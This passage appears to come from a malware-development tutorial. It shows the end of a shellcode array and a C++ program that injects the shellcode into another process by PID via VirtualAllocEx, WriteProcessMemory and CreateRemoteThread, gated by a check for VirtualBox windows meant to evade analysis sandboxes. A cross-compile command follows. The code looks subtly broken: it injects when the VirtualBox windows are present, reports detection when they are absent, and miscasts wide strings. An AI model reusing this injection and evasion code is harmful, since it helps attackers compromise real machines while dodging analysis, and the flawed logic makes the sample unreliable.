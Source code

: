 ```cpp
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  
  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window with certain class name
  HWND hcl = FindWindow((LPCSTR) L"VBoxTrayToolWndClass", NULL);
  HWND hw = FindWindow(NULL, (LPCSTR) L"VBoxTrayToolWnd");
  if (hcl || hw) {
    pid = atoi(argv[1]);
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

    rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);

    return 0;
  } else {
	printf("virtualbox VM detected :(");
    return -2;
  }
}
```

As you can see we just check if windows with the following class names are present in the OS:

```cpp
VBoxTrayToolWndClass
VBoxTrayToolWnd
```

Let's go to compile:

```cpp
x86_64-w64-mingw32-g++ hack2.cpp -o hack2.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/43/2022-03-15_17-36.png){:class="img-responsive"}    
